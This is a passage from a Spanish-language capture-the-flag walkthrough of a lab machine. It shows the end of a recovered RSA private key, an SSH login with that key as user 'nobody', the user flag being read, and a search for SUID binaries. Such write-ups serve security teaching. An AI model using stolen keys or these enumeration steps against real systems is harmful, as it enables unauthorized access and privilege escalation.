```bash
1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
-----END RSA PRIVATE KEY-----
```

```bash
❯ nano id_rsa
❯ chmod 600 id_rsa
```

## Shell as nobody

- Ahora nos conectamos por ssh.

```bash
❯ ssh -i id_rsa nobody@10.10.10.87
The authenticity of host '10.10.10.87 (10.10.10.87)' can't be established.
ED25519 key fingerprint is SHA256:V+5vDo94JYcOMESxNxxs0je359eF2cxyHZS7vQtBQ1A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.87' (ED25519) to the list of known hosts.
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ whoami
nobody
waldo:~$ 
```

## User flag

- Podemos ver la primer flag.

```bash
waldo:~$ cat user.txt 
cccbc59b1b8a9965f7eac3e8ebfa8529
waldo:~$ 
```

- No vemos nada interesante.

```bash
waldo:/$ find \-perm -4000 2>/dev/null
./usr/bin/passwd
./usr/bin/chage
./usr/bin/expiry
./usr/bin/chfn
./usr/bin/chsh
./usr/bin/newgrp
./usr/bin/gpasswd
waldo:/$ 
```

